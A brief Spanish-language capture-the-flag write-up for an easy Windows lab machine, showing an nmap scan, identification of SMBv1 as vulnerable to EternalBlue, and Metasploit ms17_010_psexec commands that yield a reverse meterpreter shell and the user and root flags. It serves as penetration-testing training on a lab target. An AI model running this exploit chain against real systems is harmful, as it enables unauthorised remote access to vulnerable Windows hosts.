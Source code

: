 Maquina: Windows
Level: Easy
IP: 10.10.10.4

## Herramientas a utilizar:

- nmap
- metaexploit

### Fase 1 Enumeracion 

```
nmap -A -o scan_legacy.txt 10.10.10.4
```
Esto no traera lo siguiente puerto
|PORT|STATE| SERVICE|VERSION|
|----|----|----|----|
|139/tcp|  open|   netbios-ssn|   Microsoft Windows netbios-ssn
|445/tcp|  open|  microsoft-ds|  Windows XP microsoft-ds
|3389/tcp| closed| ms-wbt-server|

La parte muy importante a destacar en esta maquina es que mas abajo no dice que la version de SMB que este equipo tiene es smb1 la cual es vulnerable a **eternablue.**

### Fase 2 Explotacion
Aqui utilizaremos MetaExploit
```
msfconsole
msf6> use exploit/windows/smb/ms17_010_psexec
set rhost 10.10.10.4
set lhost 10.10.14.x (la ip que nos asigna la vpn_htb).
run
```

Con esto ya tenemos **meterpreter>** desde aqui solo es enumerar.
```
cd c:\Documents and Settings\john\Desktop
```
Flag del user `type user.txt`
```
cd C:\Documents and Settings\Administrator\Desktop\
```
Flag del root `type root.txt`
